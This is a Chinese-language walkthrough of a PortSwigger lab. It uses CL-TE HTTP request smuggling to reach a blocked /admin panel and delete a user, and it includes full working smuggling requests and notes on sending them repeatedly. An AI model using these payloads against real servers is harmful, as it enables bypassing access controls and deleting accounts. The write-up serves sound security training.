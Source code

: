 #### CL-TE绕过前端服务器安全控制

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

**实验描述**：

本实验中包括一个前端和后端服务器，前端服务器不支持chunked encoding。同时本实验存在管理员系统/admin，但前端服务器限制了直接访问它。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

分别访问/home和/admin，前者显示`"Not Found"`，后者显示`"Path /admin is blocked"`

![](images/security_wiki/15905476895690.png)

![](images/security_wiki/15905476937179.png)


已提示CL-TE，即前端只识别`Content-Length`，后端只识别`Transfer-Encoding`

构造一个走私请求

```bash
GET /home HTTP/1.1
Host: ac6c1fff1e1b83fa809c15fe009a008d.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=ZZT6WpfyCJOaSO3LiMQrzMhEU7gIW0GE
Content-Length: 24
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1

```

根据返回消息可知需要使用POST方法

多次发送请求后收到提示：需要以localhost形式访问/admin

如果不成功需要多次发送请求

![](images/security_wiki/15905477084740.png)


添加`Host: localhost`后多次发送请求

![](images/security_wiki/15905477162717.png)


提示：不允许提交重复的header names，此处官网给出的解释是：

> Observe that the request was blocked due to the second request’s Host header conflicting with the smuggled Host header in the first request.
> 
> Issue the following request twice so the second request’s headers are appended to the smuggled request body instead:
> 
> * * *

```bash
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=  

```

简言之，由于第二个请求的`Host header`与第一个请求中走私请求的`Host header`冲突，请求被阻止。

因此构造以上请求，在发送两次请求的时候，可将第二个请求http数据包附加到走私请求主体中，拼接在x=之后，成为一个请求。

最后构造删除请求即可

![](images/security_wiki/15905477615642.png)


当然这里可以不采用以上方法，多次发送请求仍有概率成功，但成功率无法保证

![](images/security_wiki/15905477680868.png)


